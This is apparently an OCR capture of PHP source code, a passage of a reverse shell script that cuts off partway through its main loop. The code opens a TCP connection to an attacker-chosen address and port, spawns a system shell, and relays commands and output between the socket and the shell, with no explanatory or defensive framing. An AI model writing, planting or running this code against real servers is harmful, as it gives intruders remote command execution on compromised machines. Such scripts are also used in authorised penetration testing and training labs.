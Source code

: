 ```php
//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
```